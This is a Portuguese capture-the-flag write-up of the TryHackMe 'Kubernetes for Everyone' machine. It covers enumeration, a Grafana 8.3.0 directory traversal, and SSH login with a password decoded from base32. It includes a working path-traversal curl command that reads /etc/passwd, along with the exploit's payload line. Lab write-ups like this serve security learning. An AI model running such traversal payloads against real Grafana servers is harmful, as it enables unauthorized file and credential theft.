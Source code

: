 # CTF-Kubernetes4Everyone-THM-WriteUp

**DIficuldade:** Média

<h3> Eai, tudo beleza ? Terminei um curso focado em Kubernetes e nada melhor pra um hacker do que conhecer as coisas por outra perspectiva...</h3>

A maquina da vez se chama [Kubernetes-for-Everyone](https://tryhackme.com/room/kubernetesforyouly) focada em kubernetes, helm, kube cluster.

## Enumeração Inicial

`sudo nmap -sV -sC -T4 10.10.82.233`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp  open  rpcbind 2-4 (RPC #100000)
3000/tcp open  ppp?
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.12)
|_http-title: Etch a Sketch
6443/tcp open  ssl/sun-sr-https?
|     Content-Type: application/json
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}

```

> Essa porta 6443 trouxe algo diferente né ?

### Verificando porta 3000

`gobuster dir -u http://10.10.82.233:3000 --exclude-length 28034 -t 100 -r -x php,txt,html -w dir-med.txt 2>/dev/null`

```
/signup               (Status: 200) [Size: 27985]
/verify               (Status: 200) [Size: 27985]
/apidocs              (Status: 401) [Size: 32]   
/apidocs.php          (Status: 401) [Size: 32]
```

### http://10.10.82.233:3000
![image](https://user-images.githubusercontent.com/32500664/171016081-b0538e15-872e-41a0-908f-691d741d4cf6.png)
> A pagina do login mostra que a versão é 8.3.0.

### Procurando aquela lembrancinha pra galera do SOC conseguimos achar um [directory transversal attack](https://www.exploit-db.com/exploits/50581)
![image](https://user-images.githubusercontent.com/32500664/171017237-eb880424-92b3-4d4b-a5e6-85ea38d40e62.png)
>Dando uma lida no exploit basicamente o payload enviado é
`url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read`
>O exploit tambem lista todos os plugins. Um dos primeiros é o AlertList, decido então usar o path até ele para ler arquivos interessantes.
### Importante usar a opção –path-as-is se não a request não vai funcionar
`curl http://10.10.82.233:3000/public/plugins/alertlist/../../../../../../../../../../etc/passwd --path-as-is`
>output
```
...
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:<USUÁRIO>:/home/grafana:/sbin/nologin

```
### Temos um possivel login, mas... e a senha ?

#Porta 5000
![image](https://user-images.githubusercontent.com/32500664/171029201-7863e741-b74b-48f5-9db1-306e7bdb4c4c.png)

No source algo interessante no arquivo main.css.
![image](https://user-images.githubusercontent.com/32500664/171029492-b87e057f-a536-4d0a-8c87-14aa1507944a.png)]

>Conteudo dá url Pastebin
>"OZQWO4TBNZ2A===="
`echo "OZQWO4TBNZ2A====" | base32 -d`
Output:
>vagrant
Uma possivel senha ?

# Acesso a maquina.
Usando o usuário do arquivo passwd e a possivel senha...
```
ssh Usuário@10.10.35.154 

Usuário@10.10.35.154's password: vagrant

Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


248 packages can be updated.
192 updates are security updates.


Last login: Thu Feb 10 18:58:49 2022 from 10.0.2.2
vagrant@Sant:~$
```
